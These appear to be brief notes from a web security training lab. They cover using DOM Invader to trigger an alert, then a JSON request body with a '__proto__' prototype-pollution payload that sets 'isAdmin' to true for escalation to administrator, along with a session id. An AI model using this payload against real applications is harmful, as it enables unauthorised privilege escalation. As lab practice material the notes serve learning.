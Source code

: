 # Use DOM Invader

## if alert() was not triggered:
Click Exploit again. In the new tab that loads, append a minus character (-) to the URL and reload the page. 

==========================================ADMIN ESCALATION=============================================
## Escalation to admin

```
{"address_line_1":"Wiener HQ",
"address_line_2":"One Wiener Way",
"city":"Wienerville",
"postcode":"BU1 1RP",
"country":"UK",
"sessionId":"32rXOzL7o03dJIOblnSFC5mTqd86xack",
"__proto__": {
    "isAdmin":"true"
}}
```
